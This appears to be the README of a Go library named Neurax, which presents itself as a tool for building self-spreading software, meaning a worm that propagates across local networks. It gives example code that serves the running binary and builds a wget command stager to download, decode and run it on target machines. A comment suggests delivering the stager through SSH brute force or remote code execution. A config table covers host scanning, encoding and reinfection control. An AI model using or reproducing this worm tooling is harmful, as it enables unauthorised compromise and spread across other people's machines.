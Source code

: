 <h1 align="center"> Neurax </h1> <br>

<p align="center">
  <a>
    <img alt="Neurax" title="Neurax" src="neurax.png">
  </a>
</p>

<p align="center"> A library that aids in creation of self-spreading software</p>

## Usage
With help of Neurax, Golang binaries can spread on local network without using any external servers.

Diverse config options and command stagers allow rapid propagation across various wireless environments.
### Example code

```
package main
import "github.com/redcode-labs/Neurax"

func main(){

  //Specify serving port and stager to use
  neurax_config.port = 5555
  neurax_config.stager = "wget"

  //Start a server that exposes the current binary in the background
  go neurax_server()
  
  //Create a command stager that should be launched on target machine
  //It will download, decode and execute the binary
  cmd_stager := neurax_stager()

  /* Now you have to somehow execute the command generated above.
     You can use SSH bruteforce, some RCE or whatever else you want ;> */

}
```

### List of config entries

<span style="color:#b45e02">Name</span> | <span style="color:#5f1e2d">Description</span> | <span style="color:#aa5502">Default value</span>
--- | --- | ---
neurax_config.stager           | Name of the command stager to use | random, platform-compatible
neurax_config.port             | Port to serve on | random from 2222 to 9999
neurax_config.platform         | Platform to target | detected automatically
neurax_config.path             | The path under which binary is saved on the host | random
neurax_config.file_name        | Name under which downloaded binary should be served and then saved | random
neurax_config.base64           | Encode the transferred binary in base64 | false
neurax_config.prevent_reinfect | Use port-knocking to prevent multiple infections of the same host | true
neurax_config.required_port    | Neurax_scan() treats host as active only when it has a specific port opened|none
neurax_config.scan_passive     | Neurax_scan() detects hosts using passive ARP traffic monitoring | false
neurax_config.scan_timeout     | neurax_scan() sets this value as timeout for scanned port in each thread | 2 seconds
neurax_config.read_arp_cache   | neurax_scan() scans first the hosts found in local ARP cache. Works only with active scan | false
neurax_config.cidr             | Neurax_scan() scans this CIDR | local IP + "\24"
neurax_config.threads          | Number of threads to use for neurax_scan() | 10
neurax_config.full_range       | Neurax_scan() scans all ports of target host to determine if it is active | from 19 to 300

### Finding new targets
Function `neurax_scan(c chan string)` enables detection of active hosts on local network.
It accepts a channel of type string as it's only argument and should be launched as a goroutine.
Any scanned host will be sent through that channel as soon as it was classified as active.
Host is treated as active when it has at least 1 open port + fullfils conditions specified within `neurax_config`.

## Artwork credits

====> [Seto01](https://www.deviantart.com/seto01/art/New-disease-parasite-438032692) <====

## License
This software is under [MIT license](https://en.wikipedia.org/wiki/MIT_License)